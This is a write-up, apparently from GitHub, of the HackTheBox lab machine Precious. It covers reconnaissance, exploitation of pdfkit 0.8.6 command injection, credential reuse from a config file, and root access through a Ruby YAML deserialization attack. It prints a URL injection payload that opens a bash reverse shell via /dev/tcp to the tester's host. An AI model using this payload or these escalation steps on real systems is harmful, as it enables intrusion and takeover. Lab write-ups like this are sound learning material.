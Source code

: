 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226741000-fcc9a064-ab49-4ce5-b1c7-599783669d39.png)

- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226740976-4e384403-8a3c-449f-8d98-7ab3502cd02a.png)

- After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file. ` sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/61332852/226740953-33301fed-5077-4204-aff5-9fbfd3a83eae.png)

- The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running `gobuster` to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.  

![image](https://user-images.githubusercontent.com/61332852/226740925-41ed2196-dbb3-4d3b-a063-233ef46a8e13.png)

- After messing with the input box, I opened `BurpSuite` to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a `Cannot load remote URL` message. Thus, I began to start my own python webserver on my localhost. `python3 -m http.server 80` 

![image](https://user-images.githubusercontent.com/61332852/226740896-3202f3d1-b47a-4f9e-8117-0f0c217e4f1e.png)


- After inputting the local python server that I had started it returned the contents within the file directory of my local http server. 

![image](https://user-images.githubusercontent.com/61332852/226740853-a1c57683-8fb2-483e-8bca-a3e264a86980.png)


- I used `exiftool` to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the software that was converting the URL to PDF. 

![image](https://user-images.githubusercontent.com/61332852/226740809-c954f88b-2ff4-4ebf-8e44-76b046e60c3d.png)


- I used the `searchsploit` command again here to see if there was anything it would find for `pdfkit v0.8.6` which was the software that running. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the software running. I then found that it was vulnerable to `command injection` a type of injection vulnerability.    

![image](https://user-images.githubusercontent.com/61332852/226740759-38fc8f1e-892f-49a6-96ad-04a76634b2d9.png)

![image](https://user-images.githubusercontent.com/61332852/226740727-bff72795-dd8c-4bd1-bff6-dcc95c7f39c9.png)


- Reading more of the vulnerability and what we can start to do to exploit it this is what I found. `An application could be vulnerable if it tries to render a URL that contains query string parameters with user input`. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  

![image](https://user-images.githubusercontent.com/61332852/226740697-2984f0f2-9f60-4f85-84b6-c1b6e17ba5a2.png)


- After grabbing a reverse shell command, I inserted it as a string within the URL ``http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}``. Thus, getting me in as the user `Ruby` within the webserver.  

![image](https://user-images.githubusercontent.com/61332852/226740672-1a0d640a-d265-405c-9ac4-222767bf2c83.png)


- Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything at first. I then used `ls -la`. I found something I don’t see usually which was a directory called `.bundle` which I then found a config file consisting of another user’s (`henry`) password.  

![image](https://user-images.githubusercontent.com/61332852/226740627-a73b6eb5-1b58-4f75-bd75-8007c9b786a7.png)


- I began to login as the user `henry` with the given password. Successfully getting us in. I first checked Henrys home directory to check for any flags shown there. Then giving us our first flag.  

![image](https://user-images.githubusercontent.com/61332852/226740558-376fd648-f49f-4b4e-9178-3101bf0f6624.png)


- To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

![image](https://user-images.githubusercontent.com/61332852/226740520-89c38d0b-3576-4309-8ad1-8cc8f64ed2c7.png)


- After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to a `Yaml Deserialization Attack` allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute. After looking for the Ruby Yaml Exploit code we found the code to run from a GitHub Host. We then created a file within our home folder `touch dependency.yml` to paste the following code into. 

![image](https://user-images.githubusercontent.com/61332852/226740486-7756d9bd-6784-4f46-8d05-637d97f856dc.png)


- After running `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can now run `/bin/bash -p` to see if we spawn as the root user. Which is successful.

![image](https://user-images.githubusercontent.com/61332852/226740410-daf082a6-98f7-4105-9f1a-395e1e9791b1.png)


- After going into roots home folder we find the root flag for the machine.

![image](https://user-images.githubusercontent.com/61332852/226740263-29e5447a-2cfb-4340-89f5-185a30987b89.png)
 
